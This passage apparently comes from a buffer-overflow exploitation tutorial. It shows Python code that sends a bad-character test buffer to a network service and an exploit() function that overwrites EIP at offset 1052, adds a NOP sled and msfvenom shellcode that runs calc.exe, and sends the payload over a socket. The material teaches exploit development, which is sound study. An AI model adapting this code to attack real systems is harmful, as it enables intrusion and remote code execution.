 Code: python

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

bad_chars()
```

## Finding a Return Instruction

Now that we have control over `EIP` and know which bad characters to avoid in our payload, we need to find an instruction to execute the payload we will place on the stack. Once again, since this program does not have any bad characters, we can use the `ESP` address as our return address. (Try to exploit the program by using `ESP` as the return address).

However, we will prefer using an address of an instruction built within the program to ensure it will run on any system, as these instructions will be the same on any system. So, we'll first get a list of modules and libraries loaded by the program, and we will only consider ones that have `False` for all protections, which are the following:

Now to create our final `exploit()` function, we'll first add the above output, and will use the same `payload` from our previous exploit (while changing `offset` and address in `eip`). Finally, we will use the same code from `bad_chars()` to send our payload to the port:

Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf = b""
    ...SNIP...
    buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

exploit()
```

